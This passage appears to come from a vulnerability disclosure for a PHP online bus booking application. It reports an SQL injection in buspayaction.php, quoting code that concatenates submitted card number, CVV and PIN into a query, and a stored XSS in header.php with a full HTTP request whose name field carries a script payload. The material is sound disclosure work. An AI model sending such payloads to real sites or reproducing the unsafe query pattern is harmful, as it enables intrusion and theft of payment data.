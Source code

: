 # 9. buspayaction.php sql injection

in buspay.php post form data to buspayaction.php

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/681545d7-f4b6-4744-b22e-1f5be89e99c5)


in buspayaction.php source code file

```
$name = $_POST['name'];
$card = $_POST['cno'];
$EM  = $_POST['Em'];
$EY = $_POST['Ey'];
$Cvv = $_POST['Cvv'];
$Pin = $_POST['Pin'];
$sql_transactions="INSERT INTO bustransactions(email,source,dest,Name,Bus_No,NoOfpass,card_no,expmonth,expyear,cvv,pin,Amt)VALUES ('".$_SESSION['email']."','".$_SESSION['source']."','".$_SESSION['dest']."','" . $_SESSION['name'] . "','".$_SESSION['busnum']."','".$_SESSION['NoOfpass']."','$card', '$EM', '$EY', '$Cvv', '$Pin', '".$_SESSION['final']."')";
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/d36496c8-d7d3-48a9-a5fc-286ffe1ac5d1)

Parameterized queries or precompiled statements should be used to ensure that user input is processed and escaped correctly. This can prevent attackers from tampering with query logic by injecting malicious code.

# 10. header.php Cross-site Scripting (XSS)

at header.php line 132

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/4afd0de2-a08f-48c4-9b6f-c63ba07e4365)

POC:
regist new user

name have xss payload

```
POST /register_insert.php HTTP/1.1
Host: onlinebus
Content-Length: 117
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/register.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

name=<script>alert(2102)</script>&email=qqq%40qq.com&Gender=M&dob=2002-02-02&password=123456&phone=2&register_submit=
```

open book.php can load header.php

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/e12ac2a3-073d-4b8c-a521-b620834aa33a)



